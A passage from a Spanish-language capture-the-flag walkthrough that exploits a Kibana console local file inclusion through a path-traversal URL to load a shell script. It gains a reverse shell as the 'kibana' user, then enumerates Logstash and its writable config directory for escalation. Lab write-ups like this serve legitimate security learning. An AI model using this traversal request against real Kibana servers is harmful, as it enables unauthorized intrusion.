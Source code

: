 Una vez con ella, explotaremos el LFI visitando la siguiente ruta:

<pre><code><strong>/api/console/api_server?sense_version=@@SENSE_VERSION&#x26;apis=../../../../../../.../../../../path/to/shell.js
</strong></code></pre>

Obtenemos la reverse shell con el usuario Kibana:

```sh
bash-4.2$ whoami
kibana
```

#### Logstash

Enumerando los procesos podemos ver el **logstash:**

```sh
bash-4.2$ ps awuxx | grep logstash
root       6138 31.7 11.0 2717048 425996 ?      SNsl 06:21   0:57 /bin/java -Xms500m -Xmx500m -XX:+UseParNewGC -XX:+UseConcMarkSweepGC -XX:CMSInitiatingOccupancyFraction=75 -XX:+UseCMSInitiatingOccupancyOnly -Djava.awt.headless=true -Dfile.encoding=UTF-8 -Djruby.compile.invokedynamic=true -Djruby.jit.threshold=0 -XX:+HeapDumpOnOutOfMemoryError -Djava.security.egd=file:/dev/urandom -cp /usr/share/logstash/logstash-core/lib/jars/animal-sniffer-annotations-1.14.jar:/usr/share/logstash/logstash-core/lib/jars/commons-codec-1.11.jar:/usr/share/logstash/logstash-core/lib/jars/commons-compiler-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/error_prone_annotations-2.0.18.jar:/usr/share/logstash/logstash-core/lib/jars/google-java-format-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/gradle-license-report-0.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/guava-22.0.jar:/usr/share/logstash/logstash-core/lib/jars/j2objc-annotations-1.1.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-annotations-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-core-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-databind-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/jackson-dataformat-cbor-2.9.5.jar:/usr/share/logstash/logstash-core/lib/jars/janino-3.0.8.jar:/usr/share/logstash/logstash-core/lib/jars/jruby-complete-9.1.13.0.jar:/usr/share/logstash/logstash-core/lib/jars/jsr305-1.3.9.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-api-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-core-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/log4j-slf4j-impl-2.9.1.jar:/usr/share/logstash/logstash-core/lib/jars/logstash-core.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.commands-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.contenttype-3.4.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.expressions-3.4.300.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.filesystem-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.jobs-3.5.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.resources-3.7.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.core.runtime-3.7.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.app-1.3.100.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.common-3.6.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.preferences-3.4.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.equinox.registry-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.jdt.core-3.10.0.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.osgi-3.7.1.jar:/usr/share/logstash/logstash-core/lib/jars/org.eclipse.text-3.5.101.jar:/usr/share/logstash/logstash-core/lib/jars/slf4j-api-1.7.25.jar org.logstash.Logstash --path.settings /etc/logstash
```

Listaremos los permisos que tenemos dentro de `/etc/logstash/conf.d` :

```sh
bash-4.2$ ls -ld /etc/logstash/conf.d/
drwxrwxr-x. 2 root kibana 62 jun 24  2019 /etc/logstash/conf.d/
bash-4.2$ ls -l /etc/logstash/conf.d/ 
total 12
-rw-r-----. 1 root kibana 131 jun 20  2019 filter.conf
-rw-r-----. 1 root kibana 186 jun 24  2019 input.conf
-rw-r-----. 1 root kibana 109 jun 24  2019 output.conf
```
